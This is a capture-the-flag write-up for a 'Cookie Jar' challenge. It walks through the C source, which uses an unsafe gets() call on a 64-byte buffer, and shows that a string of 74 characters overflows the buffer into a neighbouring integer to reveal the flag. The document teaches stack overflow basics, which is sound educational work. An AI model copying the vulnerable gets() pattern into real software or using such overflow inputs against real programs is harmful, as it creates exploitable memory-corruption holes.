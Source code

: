 # Cookie Jar - 60 points

Note: Binary has been updated Try to break this [Cookie Jar](./cookiePublic64) that was compiled from this [source](./cookiePublic.c). Once you've pwned the binary, test it out by connecting to nc shell.angstromctf.com 1234 to get the flag.

Hint:
Look up some vulnerabilities associated with buffers.

### Solution
###### Writeup by asinggih

In order to get the flag, we need to have at least 100 cookies inside the cookie jar. However, if we input 100, it will say that we only have 0 cookies in the jar. 


```sh
❯ ./cookiePublic64 
Welcome to the Cookie Jar program!

In order to get the flag, you will need to have 100 cookies!

So, how many cookies are there in the cookie jar: 
100
Sorry, you only had 0 cookies, try again!

```

To find a way around it, we need to look at the source code provided.

```c
#include <stdio.h>
#include <stdlib.h>

#define FLAG "----------REDACTED----------" 


int main(int argc, char **argv){
  
	gid_t gid = getegid();
	setresgid(gid, gid, gid);

	int numCookies = 0;

	char buffer[64];

	puts("Welcome to the Cookie Jar program!\n");
	puts("In order to get the flag, you will need to have 100 cookies!\n");
	puts("So, how many cookies are there in the cookie jar: ");
	fflush(stdout);
	gets(buffer);

	if (numCookies >= 100){
		printf("Congrats, you have %d cookies!\n", numCookies);
		printf("Here's your flag: %s\n", FLAG);
	} else {
		printf("Sorry, you only had %d cookies, try again!\n",numCookies);
	}
		
	return 0;
}

```
From the source code, we can see that:

* Input is being stored inside a ```char``` array variable called ```buffer```, which can hold values up to 64 bytes. 
* The cookies are stored inside an ```int``` variable called ```numCookies```, which has a default value of ```0```. 
* We can get the <b>Flag</b> when ```numCookies >= 100``` 
* However, there's no direct relation between our input which is stored in the ```buffer``` and ```numCookies```. We need to work our way around this!

The hint suggests to find buffer overflow vulnerabilities, and I did. In our case, we can exploit buffer overflow by inserting values greater than what the allocated buffer can handle (in this case the ```buffer``` array with a size of ```64```). Buffer overflow may be used to overwrite local variable located near the vulnerable buffer on the stack. In our case, this is the ```numCookies```. 

As I have mentioned earlier, we can obtain the <b>Flag</b> when ```numCookes >= 100```. I did several attempts.

* First attempt, filling up the buffer with 65  ```b```s. No luck. This is quite weird for me, since it is already greater than 64. 
	```sh
	❯ python -c 'print ("b"*65)' | ./cookiePublic64 
	Welcome to the Cookie Jar program!

	In order to get the flag, you will need to have 100 cookies!

	So, how many cookies are there in the cookie jar: 
	Sorry, you only had 0 cookies, try again!
	```

* I kept incrementing the numbers, and finally the cookie jar starts filling up at 73. 
	```sh
	❯ python -c 'print ("b"*73)' | ./cookiePublic64 
	Welcome to the Cookie Jar program!

	In order to get the flag, you will need to have 100 cookies!

	So, how many cookies are there in the cookie jar: 
	Sorry, you only had 98 cookies, try again!

	```
* At 74, I managed to fill the cookie jar according to the requirements and obtain the flag.
	```sh
	❯ python -c 'print ("b"*74)' | ./cookiePublic64
	Welcome to the Cookie Jar program!

	In order to get the flag, you will need to have 100 cookies!

	So, how many cookies are there in the cookie jar: 
	Congrats, you have 25186 cookies!
	Here's your flag: actf{eat_cookies_get_buffer} '
	```

Note: 
The reason behind 65 ```'b'```s not doing the trick might be due to not enough overflow to overwrite the ```numCookies``` variable (I'm just guessing here). 73 ```'b'```s is the point where the overflow overwrites ```numCookies```, and 74 ```'b'```s overwrite enough values to fulfill the if condition. Look at illustration below: 

```
			       / ----- 	|-----------------------| ---\
			      /	        |    	   0	        |     \
			     / 		|-----------------------|      \
			    /		|	   0		|	\
4 bytes int numCookies <----		|-----------------------|	  ----> Concatenate the bytes 0110001001100010
			    \		|   'b' == 0b1100010	|	 /	 which converts to 25186 in decimal
			     \		|-----------------------|	/
			      \		|   'b' == 0b1100010	|      /
				\ ----	|-----------------------| ----/
					|			|
					| Location of something |
					|	????		|
				/ ----	|-----------------------| 
			       /	|			| 
			      /		|    Location of	| 
    64 bytes char buffer <----		|     char buffer 	| 
			      \		|  (now full of 'b's)	| 
			       \	|			| 
				\ ----	|-----------------------| 
					|	0x???????	| ----------> Return address of next function
					|-----------------------|
					|			|
					|	  ....		|
					|-----------------------|
						0xFFFFF

```
## Flag
>actf{eat_cookies_get_buffer}



